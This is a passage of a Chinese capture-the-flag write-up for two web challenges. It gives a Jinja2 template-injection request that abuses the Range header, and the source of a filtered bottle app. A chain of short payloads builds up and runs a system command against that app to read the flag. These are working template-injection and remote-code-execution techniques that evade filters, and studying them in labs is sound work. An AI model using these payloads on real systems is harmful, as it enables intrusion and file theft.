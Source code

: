 访问/static/flag拿到flag

‍

### **Now you see me 2**

这题跟上题打法一样，只是更换了传参的方式

```plaintext
GET /H3dden_route?spell=fly-%23}{%set%09a=config%}{%print(a.update(clss=a|attr(request.range.units)))%}{%23 HTTP/1.1
Host: 127.0.0.1:5000
Range: __class__=100-200
Connection: close
```

拿到一张图片，用[在线解密](https://tools.jb51.net/aideddesign/img_add_info)提取图片隐藏信息，无需密码

```python
flag{__M@g1c1@ans_M@stering_M@g1c__}
```

‍

### 出题人已疯

题目源码

```python
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2025/03/29 15:52:17
@Author  :   LamentXU 
'''
import bottle
'''
flag in /flag
'''
@bottle.route('/')
def index():
    return 'Hello, World!'
@bottle.route('/attack')
def attack():
    payload = bottle.request.query.get('payload')
    if payload and len(payload) < 25 and 'open' not in payload and '\\' not in payload:
        return bottle.template('hello '+payload)
    else:
        bottle.abort(400, 'Invalid payload')
if __name__ == '__main__':
    bottle.run(host='0.0.0.0', port=5000)
```

用 import 加载模块，然后修改属性去实现变量持久化，从而去 RCE，然后可以用模板函数 include 去读文件

```python
%0a%import+os;os.a='__imp'
%0a%import+os;os.b='ort__'
%0a%import+os;os.a%2B=os.b
%0a%import+os;os.b='("os"'
%0a%import+os;os.a%2B=os.b
%0a%import+os;os.b=').sys'
%0a%import+os;os.a%2B=os.b
%0a%import+os;os.b='tem("'
%0a%import+os;os.a%2B=os.b
%0a%import+os;os.b='ca'
%0a%import+os;os.a%2B=os.b
%0a%import+os;os.b='t+/f*'
%0a%import+os;os.a%2B=os.b
```